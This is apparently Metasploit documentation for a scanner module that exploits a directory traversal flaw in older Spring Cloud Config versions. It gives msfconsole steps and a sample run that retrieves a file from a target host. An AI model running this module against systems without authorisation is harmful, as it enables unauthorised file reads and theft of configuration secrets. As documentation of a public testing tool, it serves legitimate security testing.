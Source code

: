 ## Description

This module exploits an unauthenticated directory traversal vulnerability, which exists in Spring Cloud Config versions 2.1.x prior to 2.1.2,versions 2.0.x prior to 2.0.4, and versions 1.4.x prior to 1.4.6.
Spring Cloud Config listens by default on port 8888.

### Vulnerable Application

* https://github.com/spring-cloud/spring-cloud-config/archive/v2.1.1.RELEASE.zip

## Verification Steps

1. `./msfconsole`
2. `use auxiliary/scanner/http/springcloud_traversal`
3. `set rhosts <rhost>`
4. `run`

## Scenarios

### Tested against Linux zero 4.15.0-48-generic #51-Ubuntu SMP x86_64 GNU/Linux

```
msf > use auxiliary/scanner/http/springcloud_traversal 
msf auxiliary(scanner/http/springcloud_traversal) > set RHOSTS 192.168.1.132
RHOSTS => 192.168.1.132
msf auxiliary(scanner/http/springcloud_traversal) > run

[+] File saved in: /home/input0/.msf4/loot/20190418203756_default_192.168.1.132_springcloud.trav_893434.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/springcloud_traversal) >
```

## References

* https://pivotal.io/security/cve-2019-3799
